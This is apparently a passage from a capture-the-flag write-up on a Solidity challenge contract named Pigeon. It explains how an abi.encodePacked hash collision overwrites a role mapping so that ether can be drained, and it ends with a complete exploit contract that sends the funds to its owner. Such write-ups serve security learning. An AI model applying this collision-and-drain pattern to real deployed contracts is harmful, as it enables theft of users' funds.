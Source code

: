 Then we will have enough taskPoint for promotion

When we are calling promotion(), we can set a new codename
```solidity
            bytes32 newCodeName = keccak256(abi.encodePacked(newCode, newName));

            if (codeToName[newCode][newName]) revert();
            associatePigeon[newCodeName] = msg.sender;
```

So just set it to `Numbuh3` and use the hash collision with abi.encodePacked so it doesn't revert, and it will overwrite the address of the associatePigeon `Numbuh3` to our address

Then just call flyAway() to drain ether

For the senior pigeon it's just the same
```solidity
pigeon.assignPigeon{value: 15e18}("Numbuh", "1", address(0x001), 2);
```

### Exploit contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "./Pigeon.sol";

contract PigeonExploit {
    address public owner;
    
    constructor() {
        owner = msg.sender;
    }
    
    function exploit(address _pigeon) public {
        Pigeon pigeon = Pigeon(_pigeon);
        pigeon.becomeAPigeon("Numbuh5", "");
        pigeon.flyAway(keccak256(abi.encodePacked("Numbuh", "5")), 0);
        
        pigeon.task(keccak256(abi.encodePacked("Numbuh", "5")), address(pigeon), address(pigeon).balance);
        pigeon.promotion(keccak256(abi.encodePacked("Numbuh", "5")), 1, "Numbuh3", "");
        pigeon.flyAway(keccak256(abi.encodePacked("Numbuh", "3")), 1);

        pigeon.task(keccak256(abi.encodePacked("Numbuh", "3")), address(pigeon), address(pigeon).balance);
        pigeon.promotion(keccak256(abi.encodePacked("Numbuh", "3")), 2, "Numbuh1", "");
        pigeon.flyAway(keccak256(abi.encodePacked("Numbuh", "1")), 2);
        
        payable(owner).call{value: address(this).balance}("");
    }
    
    receive() external payable {}
}
```
